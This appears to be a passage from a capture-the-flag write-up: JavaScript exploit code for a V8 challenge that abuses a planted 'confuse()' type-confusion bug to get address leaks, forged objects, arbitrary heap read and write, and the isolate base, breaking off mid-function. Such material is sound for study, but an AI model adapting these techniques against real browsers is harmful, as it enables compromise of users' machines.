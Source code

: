 Final exploit:

```js
const convBuf = new ArrayBuffer(8);
const convBufFloat = new Float64Array(convBuf);
const convBufUint = new Uint32Array(convBuf);

function ftoi(val) {
    convBufFloat[0] = val;
    return BigInt(convBufUint[0]) + (BigInt(convBufUint[1]) << 32n);
}

function itof(val) {
    convBufUint[0] = Number(val & 0xffffffffn);
    convBufUint[1] = Number(val >> 32n);
    return convBufFloat[0];
}

function offsetof(obj) {
    const arr = [obj];
    arr.confuse();
    return ftoi(arr[0]) & 0xffffffffn;
}

function fakeobj(addr) {
    const arr = [itof(addr)];
    arr.confuse();
    return arr[0];
}

const arr = [1.1, 1.2, 1.3, 1.4];
const arrAddr = offsetof(arr);
const arrMap = 0x1cb86dn;
console.log(`Obj address: 0x${arrAddr.toString(16)}`);
console.log(`Obj map: 0x${arrMap.toString(16)}`);
// %DebugPrint(arr);
const arbArr = [itof(arrMap), 1.2, 1.3, 1.4];
// %DebugPrint(arbArr);
// heapArbRead(arrAddr);

function setupHeapRW(addr) {
    arbArr[1] = itof((0x00000008n << 32n) | (addr - 8n));
    const fakeTarget = offsetof(arbArr) - 0x20n;
    return fakeobj(fakeTarget);
}

function heapArbRead(addr) {
    const fake = setupHeapRW(addr);
    return ftoi(fake[0]);
}

function heapArbWrite(addr, value) {
    const fake = setupHeapRW(addr);
    fake[0] = itof(value);
}

const typedArr = new Uint32Array([0x41, 0x41, 0x41]);
// %DebugPrint(typedArr);
const typedArrAddr = offsetof(typedArr);
const isolateBase = heapArbRead(typedArrAddr + 0x30n) & 0xffffffff00000000n;
console.log(`Isolate base: ${isolateBase.toString(16)}`);

function fullAddr(addr) {
    return isolateBase + addr;
```